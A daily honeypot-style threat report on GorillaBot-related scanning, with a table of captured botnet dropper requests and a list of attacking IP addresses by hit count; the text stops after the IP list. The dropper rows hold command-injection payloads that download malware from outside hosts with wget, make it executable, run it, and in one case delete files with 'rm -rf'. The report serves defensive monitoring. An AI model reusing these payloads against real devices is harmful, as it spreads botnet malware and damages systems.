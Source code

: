```yaml
---
title: "Report: 2025-01-21 "
date: 2025-01-21
desciption: "Report: {today} "
tags: [report, daily]
---
```


# Daily Report: 2025-01-21

Hello everyone, today we found some interesting interactions with [GorillaBot](https://malpedia.caad.fkie.fraunhofer.de/details/elf.gorilla) related IP 

https://x.com/Shoggoth_Indus/status/1881818846597992534 
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                                                                   |
|---:|:---------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 45.164.177.180 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                     |
|  1 | 117.72.77.99   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                              |
|  2 | 185.196.10.129 | GET /shell?cd+/tmp;rm+holdarm+hold.arm7;wget+http:/\x5C/193.143.1.66/bins/hold.arm7;chmod+777+hold.arm7;./hold.arm7+hold.jaws;wget+http:/\x5C/193.143.1.66/bins/hold.arm;chmod+777+hold.arm;./hold.arm+hold.jaws HTTP/1.1 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   330 | 78.153.140.179  |
|   1 |                   214 | 95.214.55.39    |
|   2 |                   132 | 92.255.57.58    |
|   3 |                   129 | 112.95.227.2    |
|   4 |                    98 | 193.41.206.176  |
|   5 |                    83 | 146.19.24.168   |
|   6 |                    82 | 78.153.140.147  |
|   7 |                    72 | 185.213.175.171 |
|   8 |                    72 | 5.181.190.248   |
|   9 |                    69 | 80.82.77.202    |
|  10 |                    69 | 185.196.220.253 |
|  11 |                    69 | 164.92.122.200  |
|  12 |                    63 | 146.19.24.18    |
|  13 |                    63 | 95.214.55.43    |
|  14 |                    60 | 138.197.188.195 |
|  15 |                    60 | 109.236.61.63   |
|  16 |                    54 | 3.134.109.31    |